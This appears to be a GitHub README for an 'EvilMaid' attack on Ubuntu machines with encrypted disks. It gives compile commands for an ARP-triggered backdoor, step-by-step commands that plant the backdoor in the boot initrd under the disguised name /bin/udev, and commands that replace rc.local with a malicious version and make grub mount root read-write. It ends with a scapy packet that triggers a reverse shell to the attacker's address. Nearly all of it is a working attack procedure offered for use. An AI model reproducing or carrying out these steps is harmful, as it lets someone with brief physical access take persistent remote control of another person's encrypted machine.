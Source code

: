 # EvilMaid Attack implementation

This EvilMaid implementation is for those machines with Ubuntu and encrypted disk instalations

NOTE: I will describe all this process better, but give me a while.

# How to compile arp_knocking.cpp

First, you'll need to download and compile libtins from Martias Fontanini repo, [here](https://github.com/mfontanini/libtins).
Then run these lines to compile the program changing what you need to make It reference the library correctly.

g++ -static arp_knocking.c -o arp_knocking -std=c++11 -L ../libtins/build/lib/ -I ../libtins/include/ -lpthread -ltins -lpcap

g++ -static arp_knocking.cpp -o arp_knocking -std=c++11 -L ../libtins/build/lib/ -I ../libtins/include/ -ltins -lpcap -Wl,--whole-archive -lpthread -Wl,--no-whole-archive

# How to inject our binary in a initrd image

## mount boot partion
    mount /dev/sda1 /mnt

we will work under /tmp/ now

    cd /tmp/
    mkdir mn

## make a backup, just in case
    cp /mnt/initrd.img-X /mnt/initrd.img-X.old

## make a local copy of initrd.img to work over it
    cp /mnt/initrd.img-X ./initrd.img.gz
    gzip -d initrd.img.gz
    cd mn
    cpio -id < ../initrd.img

## edit ./mn/init file with ...

Here we will add all these lines to init script to make they run during booting process.

    cp ./arp_knocking ${rootmnt}/bin/udev
    chmod a+x ${rootmnt}/bin/udev
    cp ${rootmnt}/etc/rc.local ${rootmnt}/etc/rc.local.old
    cp rc.local.mal ${rootmnt}/etc/rc.local
    chmod a+x ${rootmnt}/etc/rc.local

## rebuild initrd.img

    find . | cpio -o -H newc > ../initrd.img
    gzip initrd.img
    mv initrd.img.gz /mnt/initrd.img-...

## finally

change /mnt/grub/grub.cfg ocurrencies of "ro" with "rw"

## triggering

to trigger the reverse shell we'll send a ARP request to out target telling it the IP where we are listing for reverse shell (psrc) and the "magic MAC" that is "fa:fa:fa:fa:fa:fa". For this we were using __scapy__, like this

    send(ARP(op="who-has", psrc="192.168.2.55", pdst="192.168.2.99", hwsrc="fa:fa:fa:fa:fa:fa", hwdst="ff:ff:ff:ff:ff:ff")))